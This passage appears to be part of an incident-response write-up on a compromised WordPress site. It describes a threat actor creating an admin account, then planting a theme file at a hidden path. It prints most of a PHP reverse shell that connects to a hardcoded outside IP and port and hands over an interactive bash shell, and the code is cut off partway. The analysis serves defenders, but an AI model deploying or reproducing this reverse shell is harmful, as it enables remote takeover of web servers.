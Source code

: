Therefore, successfully creating an admin user named `secragon` the TA switched his IP to `198.16.74.45` and manually browsed the admin dashboard. We can confirm this by their User Agent `Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0`.

To get a foothold on the server the TA created a malicious theme, which served as a reverse shell to perform Remote Command Execution. They created the file here `/var/www/html/wp-content/themes/twentytwentythree/patterns/hidden-comments.php`. The code for the reverse shell is below.

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '43.204.24.76';
$port = 6969;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

```